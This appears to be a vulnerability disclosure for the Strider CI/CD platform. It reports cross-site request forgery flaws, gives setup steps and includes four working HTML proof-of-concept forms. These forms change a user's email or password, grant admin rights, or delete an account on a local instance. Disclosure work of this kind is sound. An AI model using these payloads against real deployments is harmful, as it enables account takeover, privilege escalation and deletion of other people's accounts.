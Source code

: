 # Description

`Strider` is an Open Source Continuous Deployment / Continuous Integration platform. It is written in Node.js and Ember.js and uses MongoDB as a backing store. This platform is vulnerable to `Cross-Site Request Forgery (CSRF)`. It allowes an attacker to takeover accounts, privillege escalation and accounts deletion.

# Proof of Concept

1. Setup MongoDB
2. Install the package
```bash
git clone https://github.com/Strider-CD/strider.git
cd strider/apps/strider
npm i
node bin/strider addUser # add users accordingly
NODE_ENV=production npm start # start server
```
3. Login as admin
4. Use any of the CSRF POCs
#### Change email
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/email" method="POST">
      <input type="hidden" name="email" value="admin2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Change password
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/password" method="POST">
      <input type="hidden" name="password" value="hacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Privilege escalation
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/make_admin">
      <input type="hidden" name="user" value="user&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### Account deletion
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/remove_user" method="POST">
      <input type="hidden" name="email" value="admin&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
